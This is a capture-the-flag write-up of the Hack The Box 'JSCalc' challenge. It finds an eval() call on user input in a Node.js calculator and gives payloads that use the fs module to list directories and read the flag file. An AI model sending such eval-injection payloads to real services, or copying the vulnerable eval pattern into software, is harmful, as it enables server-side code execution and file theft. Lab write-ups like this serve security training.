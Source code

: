 #+TITLE: Jscalc_Challenge_HTB_Writeup
#+AUTHOR: MattaCossu

* BagBounty
In a first phase we go ~bagbouty~, we were provided with the code is a good way to start.

#+BEGIN_SRC bash
  .
  ├── build-docker.sh
  ├── challenge
  │   ├── helpers
  │   │   └── calculatorHelper.js
  │   ├── index.js
  │   ├── package.json
  │   ├── package-lock.json
  │   ├── routes
  │   │   └── index.js
  │   ├── static
  │   │   ├── css
  │   │   │   └── main.css
  │   │   ├── favicon.png
  │   │   └── js
  │   │       └── main.js
  │   ├── views
  │   │   └── index.html
  │   └── yarn.lock
  ├── config
  │   └── supervisord.conf
  ├── Dockerfile
  ├── flag.txt
  └── supervisord.conf
#+END_SRC

Immediately in the file ~web_jscalc/challenge/helpers/calculatorHelper.js~ we find the presence of an ~eval()~ function.
#+BEGIN_SRC js
  module.exports = {
      calculate(formula) {
	  try {
	      return eval(`(function() { return ${ formula } ;}())`);

	  } catch (e) {
	      if (e instanceof SyntaxError) {
		  return 'Something went wrong!';
	      }
	  }
      }
  }
#+END_SRC

_Attenction!_
#+BEGIN_SRC js
  return eval(`(function() { return ${ formula } ;}())`);
#+END_SRC

- ~function() { return ${ formula }; }~
This appears to be a template literal that creates an anonymous function. The formula variable seems to contain some expression or formula that's being interpolated into this function.

- ~eval(...)~
The entire template literal is passed into eval(), which attempts to execute the code within it as JavaScript.

This code snippet seems to be constructing a function dynamically based on the formula variable and then evaluating it using eval(). This approach can be powerful but may also pose security risks, especially if the formula variable contains ~user input~ or untrusted data.

* Attack Vector
Googling to refresh my memory I stumble upon this ineresting [[https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44][article]].

In a nutshell, we can create an ~attack vector~ that depending on the case can use these two functions of the library '~fs~':

~readdir()~ => Just as the dir command in MS Windows or the ls command on Linux, it is possible to use the method ~readdir~ or ~readdirSync~ of the fs class to list the content of the directory. 

~readFile()~ => The methods ~readFile~ or ~readFileSync~ provide the option to read the entire content of a file.
** Payload
Now with these fixed concepts in mind let's go forge the payload.
For read ~dir~.
#+BEGIN_SRC js
  require('fs').readdirSync('..').toString()
#+END_SRC

[[./pics/folder.png]]

For read ~file~.
#+BEGIN_SRC bash
  require('fs').readFileSync('../flag.txt').toString()
#+END_SRC

[[./pics/file.png]]
